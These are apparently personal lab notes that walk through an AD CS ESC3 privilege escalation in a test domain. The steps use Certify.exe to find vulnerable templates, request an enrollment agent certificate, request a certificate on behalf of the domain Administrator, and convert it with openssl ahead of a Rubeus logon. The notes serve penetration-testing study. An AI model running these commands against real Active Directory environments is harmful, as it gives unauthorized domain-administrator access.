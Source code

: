 ##### Enumeration

We found the enrollment agent certificate `ESC3_v2_EnrollmentAgent` with:
```powershell
 .\Certify.exe find /vulnerable
```
![[Pasted image 20230117173754.png]]


And we found user certificate for authentication `ESC3_v2_UserWithAuthorizedSignatures` with :
```powershell
.\Certify.exe find
```
![[Pasted image 20230117173550.png]]

##### Getting the AgentEnrollment Certificate

```powershell
.\Certify.exe request /ca:WIN-8DRJKS8Q1T9.labad.fr\labad-CA /template:ESC3_v2_EnrollmentAgent
```
![[Pasted image 20230117173409.png]]

Convert this pem into pfx:
```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

##### Getting the Auth Certificate

```powershell
.\Certify.exe request /ca:WIN-8DRJKS8Q1T9.labad.fr\labad-CA /template:ESC3_v2_UserWithAuthorizedSignatures /onbehalfof:LABAD\Administrator /enrollcert:..\cert.pfx /enrollcertpw:own
```

![[Pasted image 20230117173129.png]]

Convert this pem into pfx:
```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

##### Using rubeus and foothold with the last obtained certificate

![[Pasted image 20230117174144.png]]
